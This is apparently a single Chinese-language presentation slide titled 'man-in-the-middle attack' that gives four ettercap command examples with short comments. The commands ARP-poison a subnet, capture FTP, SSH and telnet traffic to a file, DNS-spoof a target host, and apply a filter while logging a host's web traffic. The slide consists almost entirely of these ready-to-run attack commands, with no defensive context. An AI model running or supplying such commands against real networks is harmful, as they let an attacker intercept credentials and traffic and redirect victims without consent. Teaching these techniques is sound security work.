

# 中间人攻击
实例
ettercap -Tqi eth0 -M ARP // //   		            	  #arp毒化eth0所在的网段，安静模式文本显示
ettercap -Tzq /10.0.0.1/21,22,23  -w hack.pcap         	  #监听10.0.0.1的ftp，ssh，telnet信息,并保存到本地
ettercap -Tq -P dns_spoof -M arp /192.168.1.120// //	  #对192.168.1.120进行dns欺骗，使用默认网卡eth0
ettercap -Tqi eth0 -L sniffed_data -F filter.ef -M arp:remote /10.0.0.2/80 //     #使用过滤并监听10.0.0.2在80端口的所有通信，安静模式文本显示，保存数据到本地

www.islide.cc 「 让PPT设计简单起来！」
4